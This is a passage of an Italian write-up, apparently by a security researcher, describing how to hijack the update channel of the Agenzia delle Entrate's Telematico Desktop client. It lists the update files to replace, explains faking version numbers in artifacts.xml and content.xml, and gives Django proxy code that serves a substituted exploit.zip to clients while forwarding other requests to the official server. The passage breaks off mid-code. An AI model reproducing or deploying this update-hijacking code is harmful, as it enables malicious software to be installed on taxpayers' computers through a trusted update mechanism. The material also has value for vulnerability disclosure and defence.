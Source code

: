 I file da sostituire erano tre:
 -  telematicoEntrateUpdateSite/Telematico-Desktop/artifacts.jar

 - telematicoEntrateUpdateSite/Telematico-Desktop/content.jar

 - telematicoEntrateUpdateSite/Telematico-Desktop/binary/it.sogei.telematico.application.prodotto_root.win32.win32.x86_1.0.3.202012301051

In questo caso dentro `artifacts.xml` e `content.xml` ho dovuto sostituire tutte le stringhe che facevano riferimento alla versione corrente di `it.sogei.telematico.application.prodotto_root.win32.win32.x86` con una nuova versione fittizzia, la `1.0.3.202012301051`.

Oltre a questo, per fare in modo che al client importasse di questa nuova versione, ho dovuto cambiare la versione di `it.sogei.telematico.application.prodotto`, che sembra sia il _"main"_ del file content.xml, in parole povere, il client, prima controlla se questo pacchetto ha un aggiornamento, e solo dopo controlla se ha tutti i pacchetti `required` ad una versione accettabile, nel caso gliene manchi qualcuno lo scarica.

Quindi, siamo arrivati al punto cruciale, ora ci basta scrivere quel miniserver di cui parlavo.

L'idea è che il dominio jws.agenziaentrate.it dovrà puntare a questo webserver, in modo che tutti i file vengano richiesti a quest'ultimo. Ogni volta che arriva una richiesta lui controlla se deve sostituirla con un file tra quelli elencati sopra, se lo deve fare ritorna il contenuto di quel file, altrimenti fa una richiesta all'ip del server ufficiale, ne prende la risposta, e la manda al nostro client, questo è il (terribile) codice della view

```python
import requests
from django.http import HttpResponse

ip = "http://217.175.50.78/"

to_subst = {
    "telematicoEntrateUpdateSite/Telematico-Desktop/artifacts.jar": "./artifacts.zip",
    "telematicoEntrateUpdateSite/Telematico-Desktop/content.jar": "./content.zip",
    "telematicoEntrateUpdateSite/Telematico-Desktop/binary/it.sogei.telematico.application.prodotto_root.win32.win32.x86_1.0.3.202012301051": "./exploit.zip"
}

def interceptAndModify(request, path):
    right_fun = {
        "GET": requests.get,
        "HEAD": requests.head,
    }
    resp = None

    if path not in to_subst.keys():
        right_fun = right_fun[request.method]
        r = right_fun(f"{ip}{path}")
        resp = HttpResponse(
            status=r.status_code,
        )
        if hasattr(r, "content"):
            resp.content = r.content
    else:
        right_fun = right_fun["HEAD"]
        r = right_fun(f"{ip}{path}")
        print(path, "content subs")
        resp = HttpResponse(
            status=r.status_code
        )
        if request.method == "GET":
            with open(to_subst[path], "rb") as rd:
                resp.content = rd.read()

    if not (path in to_subst.keys() and r.status_code == 404):
        orig_headers = r.headers
```